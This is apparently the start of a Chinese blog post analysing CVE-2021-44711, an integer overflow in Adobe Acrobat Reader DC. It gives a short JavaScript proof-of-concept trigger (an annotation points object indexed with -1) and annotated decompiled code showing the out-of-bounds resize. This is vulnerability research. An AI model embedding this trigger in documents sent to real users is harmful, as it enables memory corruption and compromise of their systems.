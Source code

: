 ```yaml
---
layout: post
title: "CVE-2021-44711 Adobe Reader整数溢出漏洞分析与利用"
tags: 漏洞利用
author: Joey
excerpt_separator: <!--more-->
---
```


# 前言

最近看到一篇[Adobe Reader 漏洞 CVE-2021-44711 利用浅析](https://vul.360.net/archives/434)漏洞分析文章，打算从该漏洞开始学习PDF类型漏洞的分析与利用，根据文章的分析思路写出EXP。分析使用的软件版本为：`Adobe Acrobat Reader DC 2021.007.20099(x86)`。

# 漏洞分析

漏洞通过PDF内嵌的js代码触发，POC代码如下：

```
var _obj = {};
_obj[-1] = null;
var _annot = this.addAnnot({page:0, type:"Line", points:_obj});
```

POC非常简单，关键就在于Annotation 对象的 points属性原本应该由两个点`{[x1,y1],[x2,y2]}`组成的，代表Annotation对象直线的起点和终点。然而poc的代码将-1作为下标，在进行类型转换时导致了越界访问造成漏洞。

类型转换函数如下：

```
//函数偏移：Annots.api+0x32EC6
if ( (int *)v11 != result )
    {
      do
      {
        index_str = (char *)(*(int (__thiscall **)(_DWORD, _DWORD))(dword_22747430 + 0x1C))(
                              *(_DWORD *)(dword_22747430 + 0x1C),
                              *(unsigned __int16 *)(v11 + 0x10));
        index_num = atoi_0(this_1, index_str);  // 转换字符下标为数字下标，将-1转化为0xffffffff
        v26 = 0x30;
        arraysize = v25[1] - *v25;
        HIDWORD(v21) = *v25;
        v22 = index_num;
        if ( arraysize / 0x30 <= index_num )    // 如果数组对象的数量小于当前下标的值，则重新分配数组大小，此时index_num为0xfffffff > 0
          resize(index_num + 1, var_11);   	// 根据下标重新分配数组大小
        sub_2212379A(v11 + 0x18);               // 类型转换
        result = (int *)sub_2212A202(&v23);
        v11 = (int)v23;
      }
      while ( v23 != *v4 );
```

